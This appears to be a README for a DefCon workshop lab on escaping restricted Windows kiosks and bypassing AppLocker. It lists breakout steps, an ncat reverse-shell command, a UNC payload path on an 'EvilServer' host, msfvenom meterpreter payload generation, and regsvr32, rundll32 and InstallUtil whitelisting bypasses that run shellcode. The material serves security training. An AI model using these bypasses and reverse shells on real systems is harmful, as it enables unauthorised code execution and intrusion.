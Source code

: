 # Lab Setup

1. Download a free Windows 10 Virtual Machine.
  * https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/
2. Boot the machine and log in as IEUser.
3. Launch PowerShell (Desktop App) as Administrator, execute the "Windows_Breakout_PrivEsc_Setup_v1.2.ps1" script and wait for the machine to reboot!
4. Extract the "DefCon-Tools.zip" archive in "C:\DefCon-Tools".

### Notes

* It is important that the Microsoft VM is used as part of the lab relies on AppLocker which is only available in Windows Professional & Enterprise.
* All user account have their password set to "123" for convenience.
* Both "restricted1" and "kiosk2" have startup scripts which will log the user out after authenticating for the first time. Be patient, allow this to complete!

# Walkthrough

## Got Shell?

### Restricted1

**Breaking out**

a) Right-click on Start button -> File Explorer

b) Windows Button -> type name of program you want to execute


**Solutions**

a) ftp.exe -> !whoami

b) powershell -> whoami

c) powershell_ise -> whoami

d) batch script -> open notepad, type whoami > whoami.txt, run script

### Restricted2

*Can only run notepad*

**Solutions**

a) Copy ftp.exe to desktop -> rename to notepad.exe -> !whoami

b) Copy cmd.exe to desktop -> rename to notepad.exe -> whoami

c) Copy custom shell (ex. React OS) to desktop -> rename to notepad.exe -> whoami

### Kiosk1

*Aka the worst kiosk ever! The main challenge here is getting an explorer window, from there it is trivial to execute anything.*

**Solutions**

a) Sticky Keys: Press Shift 5x -> Press on Link in the popup window

b) Task Manager: CTRL+SHIFT+ESC -> File -> Run New Task

c) Print: Right-click anywhere -> Print -> Find Printer

d) Open new tab -> Right-Click&Translate with Bing -> Or press F1

  * file:///C:/Windows/system32/cmd.exe
  
e) Developer Tools: Press F12 -> Performance Tab -> Press on 3rd icon "Importing Profile Session"

f) Open menu: Press CTRL+O -> Press Browse

### Kiosk2

*Uses Assigned access to expose a single Windows application to the user. Pretty decent lockdown, lots of mitigations in place, Microsoft made a concerted effort to prevent breakout. However, one thing was overlooked..*

**Solution**

a) Possible to mount UNC path. Even though visibility is restricted to folders, it is possible to execute binaries even with arguments.
  * \\EvilServer\Share\Payload.exe
  * \\127.0.0.1\C$\DefCon-Tools\Tools\ncat.exe -nv 192.168.187.1 443 -e C:\Windows\System32\cmd.exe

### AppLocker1

*Default rules & blocks powershell, cmd, rundll32. This user illustrates AppLocker configuration failures.*

**Solutions**
a) powershell_ise is not blocked.
b) User has a folder which is exempt from AppLocker Policy
  * (Get-AppLockerPolicy -Local).RuleCollections
  * Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
  * reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\560d03c2-b277-4331-8c59-bc7d4eb08359

### AppLocker2

*Default rules & blocks powershell, powershell_ise, cmd. This user illustrates common AppLocker/SRP bypasses by leveraging trusted binaries.*

**Solutions**
a) Classic rundll32
  * C:\Windows\System32\rundll32.exe C:\DefCon-Tools\SRP\Alternatives\cmd.dll,WhatEver
b) regsvr32
  1) SCT Execution
    Reading Material:
      * http://en.wooyun.io/2016/04/23/Use_SCT_to_Bypass_Application_Whitelisting_Protection.html
      * https://gist.github.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302

    Example:
      * C:\Windows\System32\regsvr32.exe /u /s /i:"C:\DefCon-Tools\SRP\SubTee\Regsvr32-notepad.sct" scrobj.dll

  2) DLL Execution
    Reading Material:
      * http://subt0x10.blogspot.com/2016/06/what-you-probably-didnt-know-about.html

    Example:
      **cmd.dll (ReactOS)**
      * C:\Windows\System32\regsvr32.exe "C:\DefCon-Tools\SRP\Alternatives\cmd.dll"
	  
      **custom dll (with limitations)**
      * C:\Windows\System32\regsvr32.exe C:\DefCon-Tools\SRP\SubTee\Resvr32-CalcNotepad.dll
      * C:\Windows\System32\regsvr32.exe /u C:\DefCon-Tools\SRP\SubTee\Resvr32-CalcNotepad.dll

      **custom dll shellcode**
      * Visual Studio project -> C:\DefCon-Tools\SRP\SubTee\Regsvr32-DLL-ShellCode
      * msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f csharp
c) InstallUtil
  1) SubTee POC
    Reading Material:
      * http://subt0x10.blogspot.com/2015/08/application-whitelisting-bypasses-101.html
      * https://gist.github.com/subTee/408d980d88515a539672

    Example:
      * msfvenom -p windows/meterpreter/reverse_tcp LHOST='192.168.187.132' -f csharp
      * C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe  /unsafe /platform:x86 /out:”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.exe” ”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.cs”
      * C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U ”C:\DefCon-Tools\SRP\SubTee\InstallUtil-ShellCode.exe”

  2) p0wnedshell
    Reading Material:
      * https://github.com/Cn33liz/p0wnedShell

    Example:
      * **compile:** C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /reference:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\System.Management.Automation.dll" /reference:System.IO.Compression.dll /win32icon:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShell.ico" /out:"C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShellx64.exe" /platform:x64 "C:\DefCon-Tools\SRP\SubTee\p0wnedShell\*.cs"
      * **execute:** C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\DefCon-Tools\SRP\SubTee\p0wnedShell\p0wnedShellx64.exe"